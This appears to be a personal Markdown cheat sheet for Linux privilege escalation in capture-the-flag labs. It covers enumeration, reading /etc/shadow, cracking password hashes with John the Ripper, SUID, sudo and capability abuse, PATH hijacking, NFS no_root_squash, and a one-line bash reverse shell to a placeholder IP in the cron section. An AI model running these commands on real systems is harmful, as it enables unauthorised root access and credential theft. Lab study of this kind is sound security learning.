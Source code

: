 ## Enumeration

**`hostname`** - name of the device, can be usefull <br>
**`uname -a`** - information about kernel system, search in exploit DB <br>
**`cat /proc/version`** - information about compilers (c++), kernel version <br>
**`ps`** - idk <br>
**`id`** - users privilege level<br>
**`sudo -l`** - what commands can user run with root privileges <br>
**`env`** - enviromental variables<br>
**`cat /etc/passwd`** - discoved users on the system <br>
**`cat /etc/shadow`** - hashes of passwords <br>
**`cat /etc/issue`** - what linux is running <br>
**`history`** - can show passwords and usernames or any info <br> <br>

### find commands
`find . -name flag1.txt 2>/dev/null` find the file named “flag1.txt” in the current directory <br>
`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory <br>
`find / -type d -name config` find the directory named config under “/” <br>
`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executablebyall users) <br>
`find / -perm a=x` find executable files <br>
`find /home -user frank` find all files for user “frank” under “/home” <br>
`find / -mtime 10` find files that were modified in the last 10 days <br>
`find / -atime 10` find files that were accessed in the last 10 day <br>
`find / -cmin -60` find files changed within the last hour (60 minutes) <br>
`find / -amin -60` find files accesses within the last hour (60 minutes) <br>
`find / -size 50M` find files with a 50 MB size <br>

## Kernel exploit

Check the kernel information and try to find existing exploits, be sure you understande them. [ExploitDB](https://www.exploit-db.com/)

## Sudo

Run `sudo -l` command. Than look at [GTFOBins](https://gtfobins.github.io/) and search for bypass ways.

## SUID
Commands with permmisions of the file owner <br>

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. <br>
Again you can compare compare executables on [GTFOBins+suid](https://gtfobins.github.io/#+suid).

It can be usefull to crack passwords using /etc/shadow and /etc/passwd files and then johnTheRipper  <br>
<pre>unshadow passwd.txt shadow.txt > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt
</pre>


## Capabilities

We can use the `getcap -r / 2>/dev/null` tool to list enabled capabilities. <br>
Search on [GTFOBins+capabilities](https://gtfobins.github.io/#+capabilities) <br>

## Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. <br>

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

easy rev shell<br>
<pre>#!/bin/bash 

bash -i >& /dev/tcp/IP/PORT 0>&1</pre>

## PATH

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

search for writable files <br>
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 

exporting path<br>
`export PATH=/newPath:$PATH`

easy shell<br>
<pre>echo "/bin/bash" > file

chmod 777 file </pre>

## NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

`cat /etc/exports`

![image](img/shell.png)

The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
